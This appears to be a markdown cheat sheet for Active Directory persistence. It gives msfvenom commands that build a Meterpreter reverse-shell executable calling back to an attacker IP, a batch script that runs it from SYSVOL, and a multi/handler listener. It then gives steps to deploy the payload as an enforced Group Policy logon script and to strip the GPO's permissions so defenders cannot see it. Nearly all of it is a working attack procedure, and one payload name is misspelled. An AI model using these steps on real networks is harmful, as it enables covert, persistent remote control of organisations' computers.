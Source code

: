 # Preparation

#### 1) msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ATTACK_IP lport=PORT -f exe > shell.exe

#### 2) Create batch script (script.bat)

#### copy \\DOMAIN\sysvol\DOMAIN\scripts\shell.exe c:/tmp/shell.exe && timeout /t 20 && c:/tmp/shell.exe

#### 3) Copy both scripts with SCP to sysvol directory

#### 4) msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreyter/reverse_tcp; set LHOST ATTACK_IP; set LPORT PORT; exploit"

# GPO CREATION

#### 1) In our runas-spawned terminal, type mmc

#### 2) File-> Add/Remove Snap-in

#### 3) Group Policy Management snap-in, then Add

#### 4) OK

#### 5) Write a GPO that can apply to anyone you wish

# WRITING GPOs

#### 1) Right-click on the Admins OU and select Create a GPO in this domain and link it here. Give any name.

#### 2) Right-click on your policy and select enforced (Ensure that the policy will apply REGARDLESS)

#### 3) Under User Configuration, expand Policies -> Windows Settings 

#### 4) Scripts (Logon/Logoff)

#### 5) Right-click in Logon -> Properties

#### 6) Scripts tab

#### 7) Add -> Browse

#### 8) Navigate to Batch file as the script and click open and ok

#### 9) Apply and OK

#### 10) Run (multi/handler)

# HIDE IN PLAIN SIGHT

#### 1) mmc, policy, delegation

#### 2) right-click on ENTERPRISE DCs and select edit settings, delete, modify security

#### 3) Click ALLL other groups (except Authenticated Users) and click remove

#### 4) click on Advanced and remove the Created Owner from permissions

#### 5) Click Add

#### 6) Type Domain Computers, click Check Names and then OK

#### 7) Select Read Permissions and click OK

#### 8) Click on Authenticated users and click remove

